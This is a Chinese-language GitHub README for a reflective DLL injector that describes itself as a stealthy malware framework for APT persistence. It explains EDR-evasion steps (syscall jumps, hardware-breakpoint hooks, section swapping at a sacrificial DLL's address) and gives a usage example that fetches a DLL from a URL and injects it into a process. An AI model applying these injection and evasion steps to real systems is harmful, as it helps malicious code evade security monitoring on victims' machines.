

# ReflectiveDLL

反射DLL是一种高级的DLL加载技术，它通过模拟Windows加载器的工作流程，实现了从内存中直接加载DLL。通过使用Native API来达到隐蔽性的目的，并直接跳转到syscall来绕过常规的API监控。通过`sleaping`函数延迟映射恶意DLL来绕过EDR的内存扫描。可以用于APT和复杂的恶意软件中，在目标系统中长期驻留。

这项技术并非一个简单的“注入工具”，而是一个高级的、旨在实现深度隐蔽和持久化驻留的恶意代码框架。它的设计目标直指现代安全检测（如EDR、AV）的盲区。


## 演示





## 使用

```
DLL Injector - Usage

SYNOPSIS:
    injector [OPTIONS]

DESCRIPTION:
    Inject DLL into target processes. Supports both local files and remote URLs.

OPTIONS:
    -h, --help           Display this help message and exit
    -u, --url URL        Specify DLL URL for remote download
    -f, --file FILE      Specify local DLL filename
    -p, --process NAME   Target process name to inject into
        --local          Enable local injection mode

EXAMPLES:
    injector --file mydll.dll --process target.exe
    injector --url http://example.com/mydll.dll --process game.exe  
    injector --file payload.dll --process app.exe

NOTES:
    - Either --file or --url must be specified
    --process is required to identify the target application
    --local enables special local injection mode
```


## 介绍

[详细介绍](https://ccoskrnl.github.io/notes/Computer_Security/software/reflective_dll/main.html)

**注入器**

注入器首先读取DLL文件到内存空间中，并加密某些函数。它会根据程序文件找到PID。通过`OpenProcess`获得进程的句柄，向目标进程申请一块新的内存空间（大小为反射DLL的大小 + 自定义头部大小），并使用`WriteProcessMemory`将头部({ 魔术值，KEY，反射函数大小 }）写入到目标进程的内存空间中。最后注入器创建一个远程线程，线程的起始函数为反射DLL中导出的预加载函数。

**反射DLL**

注入器会创建一个线程执行预加载函数，预加载函数会通过`RIP`寄存器获取当前模块的DLL头部（通过魔数头，反射DLL模块紧随着自定义的DLL头部）。当确定好模块基地址之后，预加载函数会根据头部的KEY来解密反射函数，执行反射函数之后并重新加密。最后创建新的线程执行`DllMain`函数。

反射函数通过对`ZwClose` ，`NtMapViewOfSection` 和 `NtCreateSection` 函数的入口打上硬件断点，并注册一个向量化异常处理例程，当触发单步异常时（如硬件断点），该异常处理例程就会被执行。异常处理例程通过调用这些API的`detour function` 对传入的参数进行修改。反射函数使用`LoadLibraryEx`加载牺牲的DLL(`SRH.dll`)，由于`LoadLibraryEx`会调用我们之前设置断点的几个API函数，所以当这些函数被`LoadLibraryEx`函数调用时，我们的异常处理例程就可以捕获这些单步异常，并调用对应的`detour function`去修改参数。`LoadLibraryEx`会对加载的DLL创建一个`Section`对象，并在最后通过`ZwClose`函数关闭这个对象。我们使用`ZwCloseDetour`函数来跳过该函数，保留该对象。当`LoadLibraryEx`函数执行完毕，我们移除该向量化异常处理例程，并取消这些硬件断点，最后`find_SRH_DLL_section_handle`函数获得`SRH.dll`的`Section`对象的句柄。

反射函数也通过`RIP`寄存器获取当前模块的DLL头部，并使用`mem_to_free`变量记录该地址（由于我们之前通过`VirtualAllocEx`函数申请了这块内存，后续我们需要释放这块内存避免内存泄漏）。

反射函数创建一个新的`Section`对象，其大小稍大于`SRH.dll`的大小（因为我们需要额外记录某些信息）。紧接着，它会取消映射由`LoadLibraryEx`函数映射的`SRH.dll`的视图，记录该模块的基地址，并在该基地址处重新映射我们刚刚创建的`Section`对象的视图（用于反射DLL，我们简称mal_dll）。我们记录牺牲的DLL(SRH.dll)的Section句柄，刚刚创建的Section句柄，以及新创建的Section大小和mem_to_free，将这些信息放在基地址头部。紧接着拷贝反射DLL的信息到刚刚新建的Section中。

接下来，我们需要将注入器在远程进程中申请的用于存储反射DLL文件的内存空间拷贝到刚刚新创建的内存视图当中去，并且进行PE文件的加载（手动修复IAT，进行重定位，注册异常函数表等），最后一步，我们创建一个新的线程，用于执行CRT初始化，并跳到DllMain函数中。

反射DLL的内存驻留方案核心是通过**内存地址重用**技术，实现在同一内存地址无缝替换DLL，同时保持执行连续性。这是一种高级的进程内存操作技术。在`sleaping`函数中实现。

**sleaping**

```c
int sleaping(
    PVOID image_base,
    HANDLE sac_dll_handle,
    HANDLE mal_dll_handle,
    SIZE_T view_size,
    PNT_FUNCTIONS nt_func_s,
    PVOID NtTestAlert_addr
);
```

`image_base` 是当前模块的基地址，同时也是sac_dll的基地址（由LoadLibraryEx("SRH.dll", ... )函数加载确定。`sac_dll_handle` 是`SRH.dll`的Section句柄，而`mal_dll_handle` 是我们后续通过`NtCreateSection`函数新创建的Section句柄（对应于反射DLL本身）。我们需要保证当前进程中所有线程都没有引用`image_base -> image_base + view_size` 这块内存。我们的思路也很简单，将当前执行`sleaping`的线程挂起，并新创建几个线程进行`UnMapViewOfFile(image_base)`，并调用`MapViewOfFileEx(sac_dll -> image_base)` 进行重映射即可。下面展示了`sleaping`函数的时序分析结果：

```
Main thread
    │
    ├─ Initialization phase (0-several ms)
    │   ├─ Create event object
    │   ├─ Allocate CONTEXT memory
    │   └─ Create thread 2 (suspended state)
    │
    ├─ Configure thread 2
    │   ├─ Get thread context
    │   ├─ Modify to WaitForSingleObjectEx(NtTestAlert returns)
    │   └─ Resume thread 2 execution
    │
    ├─ Create other threads
    │   ├─ CreateThread0 (suspended): UnmapViewOfFile
    │   ├─ CreateThread1 (suspended): MapViewOfFileEx(sac_dll)
    │   └─ CreateThread3 (suspended): MapViewOfFileEx(mal_dll)
    │
    ├─ Configure thread context
    │   ├─ Thread 0: UnmapViewOfFile(image_base)
    │   ├─ Thread 1: MapViewOfFileEx(sac_dll→image_base)
    │   └─ Thread 3: MapViewOfFileEx(mal_dll→image_base)
    │
    ├─ Create timer queue
    │
    ├─ Set APC queue (thread 2)
    │   ├─ APC1: UnmapViewOfFile(image_base)
    │   ├─ APC2: ResumeThread (Thread 3)
    │   └─ APC3: ExitThread (thread 2 itself)
    │
    ├─ Set timer
    │   ├─ Timer 1 (200ms): ResumeThread (Thread 0)
    │   └─ Timer 2 (300ms): ResumeThread (Thread 1)
    │
    └─ Wait for all threads to complete
```


## 参考

*   [oldboy21/RflDllOb]([oldboy21/RflDllOb: Reflective DLL Injection Made Bella](https://github.com/oldboy21/RflDllOb))

* [YOLO: You Only Load Once](https://oldboy21.github.io/posts/2024/01/yolo-you-only-load-once/)
* [Reflective DLL Got Indirect Syscall skills](https://oldboy21.github.io/posts/2024/02/reflective-dll-got-indirect-syscall-skills/) 
* [SWAPPALA: Why Change When You Can Hide?](https://oldboy21.github.io/posts/2024/05/swappala-why-change-when-you-can-hide/) 
* [SLE(A)PING Issues: SWAPPALA and Reflective DLL Friends Forever](https://oldboy21.github.io/posts/2024/06/sleaping-issues-swappala-and-reflective-dll-friends-forever/) 
* [Timer Callbacks Spoofing to Improve your SLEAP and SWAPPALA Untold](https://oldboy21.github.io/posts/2024/09/timer-callbacks-spoofing-to-improve-your-sleap-and-swappala-untold/)

